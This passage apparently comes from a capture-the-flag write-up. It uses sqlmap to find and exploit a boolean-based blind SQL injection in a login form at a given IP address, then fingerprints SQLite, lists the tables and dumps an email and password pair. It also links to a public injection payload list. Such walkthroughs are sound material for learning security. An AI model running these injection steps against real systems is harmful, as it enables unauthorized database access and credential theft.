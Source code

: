 At this point we had to enumerate the database using blind injection attack, but I didnt want to write script for it and wanted to explore SQLMap a bit more.

Without SQLMap: [PayloadsAllTheThings: SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

```bash
└─$ sqlmap -u 'http://20.244.82.82:7000/yesyoudidit' --data="username='test&password=" --dbms=SQLite

[18:39:01] [PAYLOAD] 'test' OR NOT 1316>1315-- CGJa
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N]

sqlmap identified the following injection point(s) with a total of 300 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username='test' OR NOT 6102=6102-- aypu&password=
    Vector: OR NOT [INFERENCE]
---
[18:39:07] [INFO] testing SQLite
[18:39:07] [PAYLOAD] 'test' OR NOT LAST_INSERT_ROWID()=LAST_INSERT_ROWID()-- QOEa
[18:39:07] [INFO] confirming SQLite
[18:39:07] [PAYLOAD] 'test' OR NOT SQLITE_VERSION()=SQLITE_VERSION()-- xWJo
[18:39:07] [INFO] actively fingerprinting SQLite
[18:39:07] [PAYLOAD] 'test' OR NOT RANDOMBLOB(-1)>0-- Tokt
[18:39:08] [INFO] the back-end DBMS is SQLite
web application technology: Express
back-end DBMS: SQLite
[18:39:08] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 257 times
```

```bash
└─$ sqlmap -u 'http://20.244.82.82:7000/yesyoudidit' --data="username='test&password=" --dbms=SQLite --tables
...
+----------+
| maillist |
| userdata |
+----------+
...
```

```bash
└─$ sqlmap -u 'http://20.244.82.82:7000/yesyoudidit' --data="username='test&password=" --dbms=SQLite -T maillist --dump --threads 10

+-----------------------------+-----------------+
| email                       | password        |
+-----------------------------+-----------------+
| krazykorgaonkar@hotmail.com | fluffybutterfly |
+-----------------------------+-----------------+
```
